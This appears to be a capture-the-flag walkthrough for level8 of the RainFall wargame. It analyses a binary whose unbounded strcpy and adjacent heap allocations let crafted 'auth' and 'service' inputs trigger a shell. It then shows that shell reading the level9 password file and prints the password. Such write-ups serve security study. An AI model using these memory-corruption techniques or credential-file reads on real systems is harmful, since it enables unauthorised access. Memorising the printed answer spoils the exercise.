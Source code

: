 # Level8 Walkthrough

## Analyzing the Program with GDB or Ghidra

1. **Disassemble the program functions**:
    We can see many functions : 
    - `auth` : calls malloc, memset and strcpy 
    - `reset` : calls free
    - `service`: calls strdup
    - `login` : with 2 conditions, one opening a shell and the other a password. If auth with 32bytes is different to 0 then displays addresses of the globals variables auth and service. 

## Running the program

1. **Execute the Program with the Correct Input**:  
   We ran the program with the following command:  
   ```bash
    level8@RainFall:~$ ./level8 
    (nil), (nil) 
    auth
    (nil), (nil) 
    auth 
    0x804a008, (nil) 
    service 
    0x804a008, 0x804a018 
   ```

   Now, the address of service is exactly 16 bytes after the address of auth. 
   We will have to reach 32 bytes : 16 services bytes and 16 padding bytes.

   `auth` is limited by 4bytes but the strcpy() doesnt verify the size. If input is longer than 4bytes then it overwrite the memory.
 
   We need to trigger the login() condition by : 
   - writing something after auth more than 4 bytes, then you'll write into the memory after auth, cuz it just 4bytes and it copies 5.
   - use the `service` cmd to write a large quantity of data that recover 32 bytes after auth, so that `auth + 0x20` != NULL 


2. **Solution**
    ```bash
    level8@RainFall:~$ ./level8 
    (nil), (nil) 
    auth wnaseeve
    0x804a008, (nil) 
    service geipqhgqiehgieoqhgqepighqeg
    0x804a008, 0x804a018 
    login
    $ whoami
    level9
    $ cat /home/user/level9/.pass
    c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
    $ 
    ```

    or 

    ```bash
    level8@RainFall:~$ ./level8 
    (nil), (nil) 
    auth 
    0x804a008, (nil) 
    service 
    0x804a008, 0x804a018 
    service 
    0x804a008, 0x804a028 
    login
    $ whoami
    level9
    $ cat /home/user/level9/.pass
    c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
    $ 
    ```

    because `service` is `16bytes` so either 2 services or 1 services and 16bytes more padding with chars.

## Moving to level9

1. **Swith User to level9**:
    Run ```su level9```

2. **Authenticate with the Password**:
    We used the password we found.